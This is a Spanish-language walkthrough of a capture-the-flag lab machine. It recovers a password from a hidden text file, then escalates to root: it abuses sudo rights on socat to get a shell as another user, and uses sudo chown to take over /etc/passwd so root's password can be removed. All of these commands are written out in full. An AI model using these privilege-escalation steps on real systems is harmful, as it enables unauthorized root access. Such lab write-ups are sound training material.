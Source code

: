 Listando archivos ocultos vemos que existe uno:
```bash
cat .carta_a_la_NASA.txt
```

Contenido:
```bash
Buenos días, quiero entrar en la NASA. Ya respondí las preguntas que me hicieron. Se las respondo de nuevo por aquí.

¿Qué significan las siglas NASA? -> National Aeronautics and Space Administration
¿En que año se fundo la NASA? -> 1958
¿Quién fundó la NASA? -> Eisenhower
```

**Hallazgos Clave:**
- Binario con privilegios: `[ .carta_a_la_NASA.txt ]`

Listando los usuarios del sistema vemos que existe uno: **( nasa )**
- Credenciales de usuario: `[ nasa ]:[ Eisenhower ]` Probaremos esta password para loguearnos como este.

Nos logueamos como este usuario:
```bash
su nasa # ( Eisenhower )
```
### Explotacion de Privilegios

###### Usuario `[ Nasa ]`:
Listamos los permisos de estu usuario:
```bash
sudo -l

User nasa may run the following commands on 7e69c4a832de:
    (elite) NOPASSWD: /usr/bin/socat # Tenemos una via potencial de migrar a este usuario
```

Ejecutamos el binario
```bash
# Comando para escalar al usuario: ( elite )
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

###### Usuario `[ Elite ]`:
Listamos los permisos de estu usuario:
```bash
sudo -l

User elite may run the following commands on 7e69c4a832de:
    (root) NOPASSWD: /usr/bin/chown # Tenemos una via potencial.
```

Nos aprovechamos de este binario para cambiar el propietario del archivo: **( /etc/passwd )**, Y asi poder modificarlo para quitarle la **( x )** al usuario **root** y poder loguearnos sin contrasena.
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```
